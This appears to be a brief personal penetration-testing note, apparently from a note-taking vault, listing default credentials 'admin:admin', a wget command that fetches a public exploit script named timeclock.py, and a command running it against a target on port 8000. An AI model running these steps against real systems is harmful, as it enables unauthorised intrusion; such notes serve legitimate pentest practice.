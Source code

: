 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Default creds admin:admin

```
wget https://raw.githubusercontent.com/timip/exploit/master/timeclock.py
```

```
python timeclock.py $TARGET 8000
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
